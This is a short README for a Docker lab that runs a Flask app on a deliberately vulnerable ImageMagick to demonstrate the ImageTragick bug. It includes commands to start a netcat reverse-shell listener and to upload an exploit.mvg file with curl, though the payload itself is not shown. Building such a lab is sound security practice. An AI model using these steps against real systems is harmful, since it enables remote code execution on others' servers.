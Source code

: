 # docker-imagetragick

Run a containerised Flask app that relies on a version of ImageMagic that is vulnerable to the ImageTragick bug.

## Steps

1. Build docker image:
```
$ docker build -t imagetragic .
```

2. Create docker container:
```
$ docker run -d --name imagetragic -p 127.0.0.1:8080:8080 imagetragic
```

3. Listen for reverse shell:
```
$ nc -l -n -vvv -p 4443
```

4. Edit the contents of `exploit.mvg` so that is uses the correct IP address that `nc` is listening on.

5. Upload exploit to vulnerable application:
```
$ curl -v -F file=@exploit.mvg http://127.0.0.1:8080
```

## Links

https://imagetragick.com/